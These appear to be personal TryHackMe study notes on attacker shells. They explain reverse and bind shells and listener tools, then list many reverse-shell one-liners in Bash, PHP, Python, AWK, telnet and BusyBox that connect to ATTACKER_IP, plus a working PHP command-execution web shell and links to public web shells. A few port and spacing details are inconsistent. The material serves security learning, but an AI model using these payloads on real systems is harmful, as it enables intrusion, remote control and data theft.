



# Cybersecurity 101 
---
# Offensive Security Tooling: Shells Overview

A **shell** is software that allows a user to interact with an operating system. It can be a graphical interface, but it is usually a **command-line interface**, depending on the operating system running on the target system.

In **cyber security**, the term commonly refers to a specific shell session an attacker uses when accessing a **compromised system**, allowing them to run commands and execute software. This provides the attacker with several capabilities, described below:

#### Common Uses of a Shell in Cybersecurity

- **Remote System Control**  
  Allows the attacker to execute commands or software remotely on the target system.

- **Privilege Escalation**  
  If initial shell access is limited, attackers may attempt to escalate their privileges to gain administrative access.

- **Data Exfiltration**  
  With shell access, attackers can explore the system to read and copy sensitive data.

- **Persistence and Maintenance Access**  
  Attackers can create new users, install backdoors, or use credentials to maintain access to the system.

- **Post-Exploitation Activities**  
  After gaining shell access, attackers may deploy malware, create hidden accounts, or delete critical data.

- **Access Other Systems on the Network (Pivoting)**  
  The shell may be used as a **pivot point** to move laterally across the network to compromise other systems.

## Reverse Shell


A **reverse shell**, sometimes referred to as a *"connect back shell,"* is one of the most popular techniques for gaining access to a system during cyberattacks. In this method, the **connection is initiated from the target system to the attacker's machine**, which can help avoid detection by network firewalls and other security appliances.

### How Reverse Shells Work

#### Set Up a Netcat (nc) Listener

To understand how a reverse shell works in a practical scenario, we can use the tool **Netcat**. This utility is available on multiple operating systems and supports reading and writing through a network.

As mentioned above, in a reverse shell, the compromised system connects back to the attacker’s system. The attacker's machine must be **listening for the incoming connection**. This can be done using Netcat with the following command:`nc -lvnp 443`

```bash 
attacker@kali:~$ nc -lvnp 443
listening on [any] 4444 ...
```
The command above uses several Netcat options to configure the listener:

- `-l` — Tells Netcat to **listen** for an incoming connection.
- `-v` — Enables **verbose mode**, providing detailed output about the connection process.
- `-n` — Disables DNS resolution, forcing Netcat to use **IP addresses** rather than attempting to resolve **hostnames**.
- `-p` — Specifies the **port number** to listen on. In this case, port **443**.

> 🔐 **Note:**  
> Any port can be used for listening, but attackers and penetration testers often choose **common ports** associated with legitimate services to **evade detection** by firewalls or intrusion detection/prevention systems (IDS/IPS).

Commonly used ports include:

- **53** — DNS  
- **80** — HTTP  
- **8080** — Alternative HTTP  
- **443** — HTTPS  
- **139**, **445** — SMB (Windows file sharing)

By using these well-known ports, the reverse shell traffic is more likely to **blend in with normal network activity**, making it harder for security systems to identify malicious behavior.

#### Gaining Reverse Shell Access

Once the **listener** is set up on the attacker's machine, the next step is to execute what is known as a **reverse shell payload**.

This **payload** typically exploits a vulnerability or leverages unauthorized access already obtained by the attacker. Once executed, it **initiates a connection back to the attacker's system**, effectively exposing a shell session over the network.

The type of payload used will vary depending on:

- The **operating system** of the compromised system
- The available **tools or scripting languages** (e.g., Bash, Python, Perl, PHP, PowerShell)
- The method of **initial access** or vulnerability used

There are many ready-to-use reverse shell payloads available for different platforms. A well-known and comprehensive resource is the **Reverse Shell Cheat Sheet** by Pentestmonkey:

👉 [Reverse Shell Cheat Sheet – Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

This resource includes commands for crafting reverse shells using tools like:

- Bash
- Python
- Perl
- PHP
- Ruby
- Netcat (with and without `-e` option)
- PowerShell

These payloads are useful in both penetration testing and red team engagements for simulating real-world attack scenarios.

As an example, let's analyze an example payload named a pipe reverse shell, as shown below.

```bash 
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```
**Explanation of the Payload**

- `rm -f /tmp/f` – Removes any existing named pipe at `/tmp/f` to prevent conflicts.  
- `mkfifo /tmp/f` – Creates a named pipe (`FIFO`) at `/tmp/f` for two-way communication.  
- `cat /tmp/f` – Reads data from the named pipe, waiting for input.  
- `| bash -i 2>&1` – Pipes input to an interactive Bash shell; redirects stderr to stdout.  
- `| nc ATTACKER_IP ATTACKER_PORT >/tmp/f` – Sends shell output to the attacker via Netcat.  
- `>/tmp/f` – Redirects output back into the named pipe for bi-directional communication.

The payload above can expose the shell `bash` through the network to the desired listener.

#### Attacker Receives the Shell

Once the above payload is executed, the attacker will receive a reverse shell, as shown below, allowing them to execute commands as if they were logging into a regular terminal in the OS.

*Attacker Terminal Output (Receiving Shell)*

```bash
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
To run a command as administrator (user "root"), use "sudo".
See "man sudo_root" for details.

target@tryhackme:~$
```
The output above shows the connection coming from the IP `10.10.13.37`, which is the IP address of the compromised target.

## Bind Shell

As the name indicates, a bind shell will bind a port on the compromised system and listen for a connection; when this connection occurs, it exposes the shell session so the attacker can execute commands remotely.

This method can be used when the compromised target does not allow outgoing connections, but it tends to be less popular since it needs to remain active and listen for connections, which can lead to detection.

### How bind shells work

#### Setting Up the Bind Shell on the Target

Let's create a bind shell. In this case, the attacker can use a command like the one below on the target machine.

```bash 
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

*Explanation of the Payload*

- `rm -f /tmp/f`  
  This command removes any existing named pipe file located at `/tmp/f/`. This ensures that the script can create a new named pipe without conflicts.

- `mkfifo /tmp/f`  
  This command creates a named pipe, or FIFO, at `/tmp/f`. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.

- `cat /tmp/f`  
  This command reads data from the named pipe. It waits for input that can be sent through the pipe.

- `| bash -i 2>&1`  
  The output of `cat` is piped to a shell instance (`bash -i`), which allows the attacker to execute commands interactively. The `2>&1` redirects standard error to standard output, ensuring error messages are returned to the attacker.

- `| nc -l 0.0.0.0 8080`  
  Starts Netcat in listen mode (`-l`) on all interfaces (`0.0.0.0`) and port 8080. The shell will be exposed to the attacker once they connect to this port.

- `>/tmp/f`  
  This final part sends the commands' output back into the named pipe, allowing for bidirectional communication.

The command above will listen for incoming connections and expose a bash shell. We need to note that ports below 1024 require Netcat to be executed with elevated privileges. Using port 8080 avoids this requirement.

*Terminal on the Target Machine (Bind Shell Setup)*
```bash 
target@tryhackme:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```
Once the command is executed, it will wait for an incoming connection, as shown above.

#### Attacker Connects to the Bind Shell

Now that the target machine is waiting for incoming connections, we can use Netcat again with the following command to connect.
```bash 
nc -nv TARGET_IP 8080
```
*Explanation of the command*

- `nc`  
  Invokes Netcat, which establishes the connection to the target.

- `-n`  
  Disables DNS resolution, allowing Netcat to operate faster and avoid unnecessary lookups.

- `-v`  
  Verbose mode provides detailed output of the connection process, such as when the connection is established.

- `TARGET_IP`  
  The IP address of the target machine where the bind shell is running.

- `8080`  
  The port number on which the bind shell listens.

*Attacker Terminal (After Connection)*

```bash 
attacker@kali:~$ nc -nv 10.10.13.37 8080 
(UNKNOWN) [10.10.13.37] 8080 (http-alt) open
target@tryhackme:~$
```
After connecting, we can get a shell, as shown above, and execute commands.

## Shell Listeners

As we learned in previous tasks, a reverse shell will connect from the compromised target to the attacker's machine. A utility like Netcat will handle the connection and allow the attacker to interact with the exposed shell, but Netcat is not the only utility that will allow us to do that.

Let's explore some tools that can be used as listeners to interact with an incoming shell.

#### Rlwrap
It is a small utility that uses the GNU readline library to provide editing keyboard and history.

**Usage Example (Enhancing a Netcat Shell With Rlwrap)**
```bash 
attacker@kali:~$ rlwrap nc -lvnp 443
listening on [any] 443 ...
```
This wraps `nc` with `rlwrap`, allowing the use of features like arrow keys and command history for better interaction.

#### Ncat
Ncat is an improved version of Netcat distributed by the NMAP project. It provides extra features, like encryption (SSL).

**Usage Example (Listening for Reverse Shells)**
```bash 
attacker@kali:~$ ncat -lvnp 4444
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
```
**Usage Example (Listening for Reverse Shells with SSL)**
```bash 
attacker@kali:~$ ncat --ssl -lvnp 4444
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: B7AC F999 7FB0 9FF9 14F5 5F12 6A17 B0DC B094 AB7F
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
```
The `--ssl` option enables SSL encryption for the listener.

#### Socat
It is a utility that allows you to create a socket connection between two data sources, in this case, two different hosts.

**Default Usage Example (Listening for Reverse Shell):**
```bash 
attacker@kali:~$ socat -d -d TCP-LISTEN:443 STDOUT
2024/09/23 15:44:38 socat[41135] N listening on AF=2 0.0.0.0:443
```
The command above uses the `-d` option to enable verbose output; using it twice (`-d -d`) increases the verbosity of the commands. The `TCP-LISTEN:443` option creates a TCP listener on port 443, establishing a server socket for incoming connections. Finally, the `STDOUT` option directs any incoming data to the terminal.

## Shell Payloads

A Shell Payload can be a command or script that exposes the shell to an incoming connection in the case of a bind shell or a send connection in the case of a reverse shell.

Let's explore some of these payloads that can be used in the Linux OS to expose the shell through the most popular **reverse shell**.

### Bash

**Normal Bash Reverse Shell**

```bash 
target@tryhackme:~$ bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 
```
This reverse shell initiates an interactive bash shell that redirects input and output through a TCP connection to the attacker's IP (`ATTACKER_IP`) on port 443. The `>&` operator combines both standard output and standard error.

**Bash Read Line Reverse Shell**
```bash 
target@tryhackme:~$ exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
```
This reverse shell creates a new file descriptor (`5` in this case)  and connects to a TCP socket. It will read and execute commands from the socket, sending the output back through the same socket.

**Bash With File Descriptor 196 Reverse Shell**
```bash 
target@tryhackme:~$ 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196
```
This reverse shell uses a file descriptor (`196` in this case) to establish a TCP connection. It allows the shell to read commands from the network and send output back through the same connection.

**Bash With File Descriptor 5 Reverse Shell**
```bash 
target@tryhackme:~$ bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```
Similar to the first example, this command opens a shell (`bash -i`), but it uses file descriptor `5` for input and output, enabling an interactive session over the TCP connection.

### PHP

**PHP Reverse Shell Using the exec Function**
```bash 
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");' 
```
This reverse shell creates a socket connection to the attacker's IP on port `443` and uses the `exec` function to execute a shell, redirecting standard input and output.

**PHP Reverse Shell Using the shell_exec Function**
```bash 
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```
Similar to the previous command, but uses the `shell_exec` function.

**PHP Reverse Shell Using the system Function**
```bash 
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");' 
```
This reverse shell employs the `system` function, which executes the command and outputs the result to the browser.

**PHP Reverse Shell Using the passthru Function**
```bash 
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```
The `passthru` function executes a command and sends raw output back to the browser. This is useful when working with binary data.

**PHP Reverse Shell Using the popen Function**
```bash 
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");' 
```
This reverse shell uses `popen` to open a process file pointer, allowing the shell to be executed.

### Python
Please note, the following snippets below require using `python -c` to run, indicated by the placeholder PY-C

**Python Reverse Shell by Exporting Environment Variables**
```bash 
target@tryhackme:~$ export RHOST="ATTACKER_IP"; export RPORT=443; PY-C 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' 
```
This reverse shell sets the remote host and port as environment variables, creates a socket connection, and duplicates the socket file descriptor for standard input/output.

**Python Reverse Shell Using the subprocess Module**
```bash 
target@tryhackme:~$ PY-C 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
This reverse shell uses the `subprocess` module to spawn a shell and set up a similar environment as the Python Reverse Shell by Exporting Environment Variables command.

**Short Python Reverse Shell**
```bash 
PY-C 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```
This reverse shell creates a socket (`s`), connects to the attacker, and redirects standard input, output, and error to the socket using `os.dup2()`.


### Others

**Telnet**
```bash 
target@tryhackme:~$ TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF
```
This reverse shell creates a named pipe using `mkfifo` and connects to the attacker via Telnet on IP `ATTACKER_IP` and port `443`. 

**AWK**
```bash 
target@tryhackme:~$ awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
This reverse shell uses AWK’s built-in TCP capabilities to connect to `ATTACKER_IP:443`. It reads commands from the attacker and executes them. Then it sends the results back over the same TCP connection.

**BusyBox**
```bash 
target@tryhackme:~$ busybox nc ATTACKER_IP 443 -e sh
```
This BusyBox reverse shell uses Netcat (`nc`) to connect to the attacker at `ATTACKER_IP:443`. Once connected, it executes `/bin/sh`, exposing the command line to the attacker.

## Web Shell

A web shell is a script written in a language supported by a compromised web server that executes commands through the web server itself. A web shell is usually a file containing the code that executes commands and handles files. It can be hidden within a compromised web application or service, making it difficult to detect and very popular among attackers.

Web shells can be written in several languages supported by web servers, like PHP, ASP, JSP, and even simple CGI scripts. 

#### Example PHP Web Shell

Let’s look at an example PHP web shell to understand how this process works:

```PHP 
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
The above shell can be saved into a file with the PHP extension, like `shell.php`, and then uploaded into the web server by the attacker by exploiting vulnerabilities. 

After the web shell is deployed on the server, it can be accessed through the URL where the web shell is hosted. In this example:  
`http://victim.com/uploads/shell.php`

As observed from the code in `shell.php`, we need to provide a GET method with the variable `cmd`, which should contain the command the attacker wants to execute. For example, to execute the command `whoami`, the request to the URL should be:  
`http://victim.com/uploads/shell.php?cmd=whoami`

This will execute the command `whoami` and display the result in the web browser.


#### Existing Web Shells Available Online

The power of supported languages by the web servers can result in web shells with lots of functionality and avoid detection at the same time. Let's explore some of the most popular web shells that can be found online 

- [p0wny-shell](https://github.com/flozz/p0wny-shell) - A minimalistic single-file PHP web shell that allows remote command execution. 

 <br>

- [b374k shell](https://github.com/b374k/b374k) - A more feature-rich PHP web shell with file management and command execution, among other functionalities.

 <br>

- [c99 shell](https://www.r57shell.net/single.php?id=13) - A well-known and robust PHP web shell with extensive functionality.

 <br>

You can find more web shells at: https://www.r57shell.net/index.php.

---
> **Note:** These notes document hands-on learning from the TryHackMe *Cybersecurity 101* path. The exercises cover fundamental cybersecurity topics, including Linux basics, networking concepts, and web technologies. This document is intended for personal learning, revision, and ethical skill development. All screenshots, commands, and actions are for educational purposes only.  
> — Compiled by moh4med404 | Curious Mind | Cybersecurity Enthusiast

